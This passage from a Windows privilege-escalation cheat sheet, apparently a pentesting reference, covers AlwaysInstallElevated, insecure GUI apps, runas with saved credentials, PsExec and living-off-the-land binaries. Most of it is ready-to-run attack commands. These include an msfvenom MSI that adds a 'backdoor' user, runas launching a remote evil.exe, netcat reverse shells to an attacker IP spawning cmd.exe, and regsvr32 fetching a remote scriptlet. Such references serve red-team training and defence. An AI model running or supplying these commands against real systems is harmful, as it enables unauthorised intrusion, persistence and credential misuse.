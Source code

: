 Then create an MSI package and install it.

$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
$ msiexec /quiet /qn /i C:\evil.msi

Technique also available in Metasploit : exploit/windows/local/always\_install\_elevated

EoP - Insecure GUI apps

Application running as SYSTEM allowing an user to spawn a CMD, or browse directories.

Example: "Windows Help and Support" \(Windows + F1\), search for "command prompt", click on "Click to open Command Prompt"

EoP - Runas

Use the cmdkey to list the stored credentials on the machine.

cmdkey /list
Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator

Then you can use runas with the /savecred options in order to use the saved credentials. The following example is calling a remote binary via an SMB share.

runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"

Using runas with a provided set of credential.

C:\Windows\System32\runas.exe /env /noprofile /user:&lt;username&gt; &lt;password&gt; "c:\users\Public\nc.exe -nc &lt;attacker-ip&gt; 4444 -e cmd.exe"

$ secpasswd = ConvertTo-SecureString "&lt;password&gt;" -AsPlainText -Force
$ mycreds = New-Object System.Management.Automation.PSCredential \("&lt;user&gt;", $secpasswd\)
$ computer = "&lt;hostname&gt;"
\[System.Diagnostics.Process\]::Start\("C:\users\public\nc.exe","&lt;attacker\_ip&gt; 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer\)

EoP - From local administrator to NT SYSTEM

PsExec.exe -i -s cmd.exe

EoP - Living Off The Land Binaries and Scripts

Living Off The Land Binaries and Scripts \(and also Libraries\) : https://lolbas-project.github.io/

The goal of the LOLBAS project is to document every binary, script, and library that can be used for Living Off The Land techniques.

A LOLBin/Lib/Script must:

	• Be a Microsoft-signed file, either native to the OS or downloaded from Microsoft. Have extra "unexpected" functionality. It is not interesting to document intended use cases. Exceptions are application whitelisting bypasses

	• Have functionality that would be useful to an APT or red team

wmic.exe process call create calc
regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
Microsoft.Workflow.Compiler.exe tests.xml results.xml
